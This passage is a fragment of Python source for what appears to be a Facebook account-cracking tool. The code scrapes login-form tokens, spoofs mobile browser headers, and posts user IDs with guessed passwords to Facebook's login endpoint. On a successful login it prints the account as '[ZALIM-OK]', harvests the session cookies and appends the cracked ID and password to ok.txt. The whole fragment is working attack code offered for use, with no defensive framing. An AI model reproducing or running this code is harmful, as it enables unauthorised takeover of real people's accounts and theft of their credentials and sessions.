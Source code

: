 			"jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),

			"m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),

			"li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),

			"try_number":"0",

			"unrecognized_tries":"0",

			"email":uid,

			"pass":ps,

			"login":"Log In"}

			header_freefb = {'authority': 'mbasic.facebook.com',
           'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
           'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
           'cache-control': 'max-age=0',
           'dpr': '2.75',
           'referer': 'https://www.google.com/',
           'sec-ch-prefers-color-scheme': 'light',
           'sec-ch-ua': '"Not)A;Brand";v="24", "Chromium";v="116"',
           'sec-ch-ua-full-version-list': '"Not)A;Brand";v="24.0.0.0", "Chromium";v="116.0.5845.72"',
           'sec-ch-ua-mobile': '?0',
           'sec-ch-ua-model': '""',
           'sec-ch-ua-platform': '"Linux"',
           'sec-ch-ua-platform-version': '""',
           'sec-fetch-dest': 'document',
           'sec-fetch-mode': 'navigate',
           'sec-fetch-site': 'cross-site',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': 'Mozilla/5.0 (Linux; Android 6.0.1; vivo Y55 Build/MMB29M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/98.0.4758.101 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/383.0.0.23.106',}
            
			lo = session.post('https://x.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text

			log_cookies=session.cookies.get_dict().keys()

			#print(iid+'|'+pws+'|'+str(log_cookies))

			if 'c_user' in log_cookies:

				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

				uid = coki[151:166]

				print('\r\033[1;32m[ZALIM-OK] '+uid+' | '+ps)

				cek_apk(coki)

				open('ok.txt', 'a').write(uid+' | '+ps+'\n')

				oks.append(uid)
